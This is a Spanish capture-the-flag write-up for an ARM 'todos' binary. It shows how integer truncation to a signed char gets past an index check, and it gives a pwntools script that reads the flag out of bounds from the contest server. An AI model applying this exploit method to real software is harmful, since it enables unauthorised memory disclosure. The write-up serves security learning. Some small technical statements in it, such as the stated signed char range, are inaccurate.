 # todos

```
checksec --file todos
[*] '/home/kalcast/Descargas/Pwn/todos/todos'
    Arch:       arm-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
```

## Saltar validaciones en main.c

``` C
int read_unsigned(char **buf, size_t *len) {
    read_line(buf, len);
    char *end;
    long long result = strtoll(*buf, &end, 10);
    if (result < 0) {
        return -1;
    } else {
        return result;
    }
}
```

Esta funcion se llama para convertir la cadena introducida en un `long long`, si es un numero grande este se trunca al conetirse a un `int` (de 8 bytes se guardan solo los 4 menos significativos)

El tipo `int` es con signo, los que significa que si su bit mas significativo (MSB) esta activo entonces el resultado es negativo.

Por ejemplo el numero "1844674407370955160" tiene estos bits:

`00011001 10011001 10011001 10011001 10011001 10011001 10011001 10011000`

Si lo convertimos a int se queda en:

`10011001 10011001 10011001 10011000`  <--- MSB activo !

Si asignamos este valor a un signed int resultara en un negativo. Aqui un programa de ejemplo:
``` C
#include <stdio.h>

void print_binary(int num) {
    for (int i = 31; i >= 0; i--) {
        printf("%d", (num >> i) & 1);
        if (i % 8 == 0) printf(" ");
        if (i == 16) printf(" | ");
    }
    printf("\n");
}

int main() {
  long long test = 1844674407370955160;
  printf("LONG LONG: %llb\n\n",test);
  printf("SIGNED INT: %d\n\n",test);
  print_binary(test);
  return 0;
}
```

```
LONG LONG: 1844674407370955160

SIGNED INT: -1717986920

10011001 10011001  | 10011001 10011000
```

Luego ese valor se usa en esta funcion:
``` C
char read_char(char **buf, size_t *len) {
    int result = read_unsigned(buf, len);
    if (result == -1 || result > CHAR_MAX) {
        return -1;
    }
    return result;
}
```

Y aqui:
``` C 
 if (choice != -1) print_todo(choice);
...
 if (choice != -1) complete_todo(choice);
```

Con un valor grande que se trunque a un negativo nos saltamos todas las validaciones en `main.c`

## Detectar out-of-bounds en `todos.c` y problemas en la validacion del indice

Todo lo anterior fue con el objetivo de explotar una vulnerabilidad aqui en `print_todo`:
``` C
void print_todo(char i) {
    if (i < 0 || i >= next) {
        printf("Invalid TODO\n");
        return;
    }

    printf("// TODO: %s%s\n", todos[i].name, todos[i].completed ? " (done!)" : "");
}
```

Esto nos permitiria leer 55 bytes de memoria de manera arbitraria como un string si no tuviese esta validacion que evita que usemos indices fuera del rango:
```
    if (i < 0 || i >= next) {             
        printf("Invalid TODO\n");
        return;
    }
```

Pero sopresa!, la validacion no funciona correctamente:
```
./todos
1. Add a TODO
2. Print a TODO
3. Mark a TODO as completed
4. Edit a TODO
5. Check for incomplete TODOs
6. Exit
What would you like to do? 2
Which TODO would you like to print? 1844674407370955160
// TODO:
```

Entonces leemos el Makefile:
``` make
.SILENT:
OPT=-Os                                               <--- Una bandera de optimizacion ?
CFLAGS=-fsigned-char -static                          <--- Todos los char son signed char, en lugar de [0,255] ahora van de [-127,128]

todos: main.o todos.o
	gcc $(CFLAGS) $(OPT) main.o todos.o -o todos
main.o: main.c todos.h
	gcc $(CFLAGS) $(OPT) -c main.c
todos.o: todos.c todos.h
	gcc $(CFLAG) $(OPT) -c todos.c

.PHONY: clean
clean:
	rm -f todos *.o
```

Bueno, con eso vemos que cuando nuestro int se le pasa a la funcion `print_todo` lo hace como un signed char. Agregemos esta linea a nuestro programa de prueba y veamos:
``` C
 printf("SIGNED CHAR: %d\n\n",(signed char)(test)
```

```
LONG LONG: 1844674407370955160

SIGNED INT: -1717986920

SIGNED CHAR: -104

10011001 10011001  | 10011001 10011000
```

En efecto termina como un indice negativo. Obviamente `i >= next` no es verdad pero `i < 0` deberia serlo.

Probé el programa en x86 y x86_64 con el mismo Makefile y funcionaba bien, no me dejo imprimir nada fuera del rango pero por alguna razon en este binario ARM la ignora.

Supongo que se debe a la bandera de optimizacion. Debe haber algun conflicto con la bandera `fsigned char` que no se da cuenta y "optimiza" el programa ignorando `i<0` porque ve que el argumento es un char y este es positivo siempre.

## Lectura arbitraria

Como sabemos `flag` y el struct de structs `todos` son variables globales, que debido a que el binario no tiene PIE entonces tienen una direccion de memoria fija:
```
[0x0001053c]> is~flag
2977 0x00052238 0x00063238 GLOBAL OBJ    128       flag
3389 0x0003e9f4 0x0004e9f4 GLOBAL OBJ    350       _dl_arm_cap_flags
3537 0x00052b24 0x00063b24 GLOBAL OBJ    4         _dl_stack_flags
3554 0x000384b4 0x000484b4 GLOBAL OBJ    4         __rseq_flags
[0x0001053c]> is~todos
92   ---------- 0x00000000 LOCAL  FILE   0         todos.c
107  ---------- 0x000640a0 LOCAL  OBJ    560       todos
2925 0x00000820 0x00010820 GLOBAL FUNC   52        find_incomplete_todos
```

Como leimos del resto del codigo fuente sabemos que asi luce una estructura `Todo`:
```
struct Todo {
 char name[51];
 int completed;
}
```

Es decir 55 (o 56 bytes para alineacion) son reservados.

```
>>> (0x00063238-0x000640a0)/56
-65.85714285714286
```

Para llegar desde `0x000640a0` hasta `0x00063238` vamos a necesitar un indice con valor `-65`.

Usando el programa de prueba simplemente aumente el número hasta llegar a un valor que me resultara en `-65` al convertirlo. Ese valor fue `1844674407370955455`

``` python3
# Ya habia hecho un script porque pensaba que necesitariamos algo mas complejo
from pwn import *
#io = process("./todos")
io = remote("charful.chals.damctf.xyz",30128)
elf = context.binary = ELF("./todos")
context.log_level = 'debug'
# flag 0x00063238
# todos 0x000640a0
# next 0x0006409c
# todos[-65]
payload=b"1844674407370955455"
io.recvuntil(b"do?")
io.sendline(b"2")
io.sendlineafter(b"print?",payload)
io.interactive()
```

`dam{dont_you_love_to_play_with_fun_signed_chars} `





